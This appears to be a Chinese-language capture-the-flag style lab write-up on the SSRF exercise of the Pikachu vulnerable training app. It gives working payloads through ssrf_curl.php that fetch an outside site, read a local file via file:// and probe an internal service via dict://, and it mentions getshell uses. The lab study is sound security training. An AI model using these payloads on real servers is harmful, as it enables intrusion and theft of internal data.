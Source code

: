 观察 url: `http://<IP address !!!>/pikachu/vul/ssrf/ssrf_curl.php?url=http://127.0.0.1/pikachu/vul/ssrf/ssrf_info/info1.php`

看起来就像远程包含漏洞一样，尝试构造 payload: `http://<IP address !!!>/pikachu/vul/ssrf/ssrf_curl.php?url=http://www.baidu.com`

![image](../../../assets/img/安全/实验/pikachu/72.png)

SSRF 利用方式有很多,比较常见的是服务端请求其他网站,一种是探测内网敏感信息,还有就是攻击 web 应用,主要是 strust2 远程命令执行,还有一些中间件的 getshell.

payload: `http://<IP address !!!>/pikachu/vul/ssrf/ssrf_curl.php?url=file:///c:/1.txt`

payload: `http://<IP address !!!>/pikachu/vul/ssrf/ssrf_curl.php?url=dict://127.0.0.1:80/info`

![image](../../../assets/img/安全/实验/pikachu/73.png)

